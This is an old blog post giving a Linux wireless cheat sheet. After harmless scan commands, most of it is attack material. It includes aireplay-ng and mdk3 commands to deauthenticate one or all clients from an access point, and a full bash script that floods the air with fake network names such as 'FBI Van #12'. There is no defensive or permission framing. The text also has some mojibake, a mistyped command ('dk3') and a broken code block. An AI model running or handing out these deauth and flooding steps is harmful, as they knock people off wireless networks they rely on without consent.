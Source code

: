 ﻿---
title:  Wireless Fun with Aircrack and Others
date:   2012-11-05 00:00:00 -0500
categories: IT
---

A short list of some things you can do with wireless on a linux box. Have fun.

***Determine Modes your NIC is capable of.***

```bash
airmon-ng (find PHY# for your NIC)
iw phy phy1 info | grep â€“A8 modes
```

***Passive Scan (Should not generate any frames)***

```bash
iw dev wlan0 scan passive | grep SSID
```

***Active Scan***

```bash
iw dev wlan0 scan | grep SSID
airmon-ng start wlan0
airodump-ng mon0
iwconfig wlan0 channel #
iwconfig wlan0 essid <ssid>
iwconfig wlan0 mode managed
```

***Deauthorization***

```bash
iwconfig mon0 channel #
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
```

- -0 means deauthentication
- 1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously
- -a 00:14:6C:7E:40:80 is the MAC address of the access point
- -c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
- ath0 is the interface name

***Deauthorization with ***MDK3***

```bash
airmon-ng start wlan0
dk3 mon0 d
```

or

```bash
mdk3 mon0 d -w whitelist (deauth everything not listed in file)
```

or

```bash
mdk3 mon0 d -b blacklist (deauth everything listed in file)

d - deauthorization mode
w - whitelist
b - blacklist```
***Broadcast Network Names with MDK3***
```bash
airmon-ng start wlan0
mdk3 mon0 b -c 11 -f ssid_names
```

- b - beacon flood mode
- c - channel
- f - text file with ssid names

Everything you need to run a beacon flood in one script.

```bash
networks=(
"FreeWifi"
"FBI Van #12"
"Customer Wireless"
"Visitors"
"ATTWifi"
"Verizon Hotspot"
"l33t haxor net"
)

if [ -f ssid_names ]
then
echo -e "\e[1;31mDeleting list of network names\e[0m"
rm -f ssid_names
fi

echo -e "\e[1;32mCreating list of network names\e[0m"
for i in "${networks[@]}"
do
echo $i >> ssid_names
done

if [[ -n $(airmon-ng | grep mon0) ]]
then
echo -e "\e[1;32mMon0 interface exists\e[0m"
else
echo -e "\e[1;32mStarting AirMon on wlan0\e[0m"
airmon-ng start wlan0
fi

echo -e "\e[1;32mBegin beacon flood on mon0\e[0m"
mdk3 mon0 b -c 11 -f ssid_names
```

- [8 Linux Commands: To Find Out Wireless Network Speed, Signal Strength And Other Information]("http://www.cyberciti.biz/tips/linux-find-out-wireless-network-speed-signal-strength.html" )
- [aircrack-ng Deauthorize]("http://www.aircrack-ng.org/doku.php?id=deauthentication" )
- [airmon-ng]("http://www.aircrack-ng.org/doku.php?id=airmon-ng" )
- [iwconfig man page]("http://www.linuxcommand.org/man_pages/iwconfig8.html" )
- [iw command info]("http://wireless.kernel.org/en/users/Documentation/iw" )
